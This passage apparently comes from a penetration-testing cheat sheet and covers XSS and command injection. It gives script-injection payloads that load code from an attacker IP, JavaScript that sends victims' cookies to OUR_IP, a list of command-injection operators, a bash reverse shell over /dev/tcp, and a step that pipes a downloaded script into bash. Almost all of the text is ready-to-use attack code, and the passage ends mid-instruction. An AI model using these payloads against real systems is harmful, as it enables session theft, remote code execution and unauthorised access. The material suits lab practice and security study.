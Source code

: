 ```html

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://10.10.14.17\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP/username")</script>
```
4. If we receive something back, we can host a JS file to execute to grab their cookie as `script.js`:
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;

new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
5. Now change your payload to grab this file from our listener, and we should get their cookie:
```html
<script src=http://OUR_IP/script.js></script>
```



## Command Injection
**Injection Operators:**
```shell 
1 ; whoami
1 & whoami & 
1 && whoami 
1 | whoami
1 || whoami || #Only executes second command if first one returns an error
1 `whoami` #Unix-based systems
1 $(whoami) #Unix-based systems
```
>**NOTE:** Test for both spaced and unspaced commands!!!!
### Inputs
We can test on any data that is being sent to a server by (ex: productIDs, file uploads, search function, URL, etc.):
1. Starting a Python server: `python -m http.server 80`
2. Sending command to our python server: `curl http://10.10.14.17:80`
	- If we get a response, we can continue to exploit
#### RCE (Remote Shell)
1. Create a file called `rev.sh`:
```shell
#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.17/4561 0>&1'
```
2. Start Python server again
3. Send `curl` request through command injection: `curl http://10.10.14.17:80/rev.sh|bash`

If this doesn't work:
1. Confirm vulnerability by starting your Python server again and sending: `ProductID=1||wget http://www.webhook.site/your-site||`
2. If this is vulnerable, you can connect to reverse shells, or execute commands and send them back to your website:
